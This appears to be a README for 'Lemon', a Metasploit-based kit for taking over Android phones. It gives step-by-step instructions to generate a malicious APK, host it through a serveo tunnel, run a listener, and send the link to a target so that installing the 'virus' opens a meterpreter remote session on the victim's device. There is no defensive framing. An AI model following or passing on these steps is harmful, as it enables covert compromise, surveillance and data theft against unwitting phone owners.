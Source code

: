 Requirements :-
1. Metasploit-Framework
Installation :-
1. Install it by executing "cd $HOME/Lemon && sh Install" without quotes.
How to use :-
1.Run php by typing "sh php".
2.Run say by typing "sh ssh" and copy the link you get.   [NEW SESSION]
3. Forward TCP Connections by executing "sh payload" , if it gives an error then try "sh payload6".  [NEW SESSION]
4.Type "cat Handler" if you use used "sh payload" , type "cat Handler6" if you used "sh payload6" and copy the content of Handler or Handler6 in your clipboard.   [NEW SESSION]
5. Finally paste the code.  [NEW SESSION] 
6. Now, put "/Exploit.apk" if you used payload or put "/Exploit6.apk" if you used payload6 after the link that you got after running "sh ssh" [For Example : lente.serveo.net/Exploit.apk or lente.serveo.net/Exploit6.apk] and send the link to the target Android, once the virus gets installed in the target device, you will see a meterpreter session opening, wait for a few seconds and press enter. Now you can mess with the hacked Android using the commands listed.
